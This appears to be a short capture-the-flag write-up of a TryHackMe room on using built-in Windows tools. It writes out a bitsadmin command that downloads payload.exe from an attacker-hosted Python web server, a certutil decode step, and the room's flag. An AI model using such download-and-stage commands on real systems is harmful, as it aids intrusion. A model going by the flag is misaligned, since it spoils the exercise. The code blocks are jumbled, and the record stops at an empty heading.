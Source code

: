 # Room Information

# Room Tasks

## File Operations

### BITSAdmin

```Bash
root@ip-10-10-181-22:~# touch payload.exe
```

```Bash
root@ip-10-10-181-22:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```CMD
DISPLAY: '/Download' TYPE: DOWNLOAD STATE: TRANSFERRED
PRIORITY: FOREGROUND FILES: 1 / 1 BYTES: 0 / 0 (0%)
Transfer complete.

```Bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.168.70 - - [19/Aug/2023 21:08:46] "HEAD /payload.exe HTTP/1.1" 200 -
```
C:\Users\thm>bitsadmin.exe /transfer /Download /priority Foreground http://10.10.181.22:8000/payload.exe c:\Users\thm\Desktop\payload.exe
```

```CMD
C:\Users\thm>certutil -decode C:\Users\thm\Desktop\enc_thm_0YmFiOG_file.txt Output.txt
Input Length = 52
Output Length = 38
CertUtil: -decode command completed successfully.
```

```CMD
C:\Users\thm>type Output.txt
THM{ea4e2b9f362320d098635d4bab8a568e}
```

## File Execution
